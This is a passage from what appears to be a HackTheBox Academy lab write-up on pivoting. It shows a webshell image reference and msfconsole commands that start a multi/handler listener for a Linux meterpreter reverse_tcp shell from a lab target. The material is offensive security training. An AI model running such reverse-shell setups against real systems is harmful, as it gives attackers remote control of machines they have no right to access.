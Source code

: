 ![Pivot skills assessment webshell](/images/pivot-skills-assessment-webshell.png)  

### Initial Reverse Shell  

>Setup a [Meterpreter reverse shell - Meterpreter Tunneling & Port Forwarding](https://academy.hackthebox.com/module/158/section/1428) to target `10.129.201.127`.
>MSFconsole multi handler listen on port 8080

```
sudo msfconsole

use exploit/multi/handler
set LHOST 10.10.15.124
set LPORT 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```  
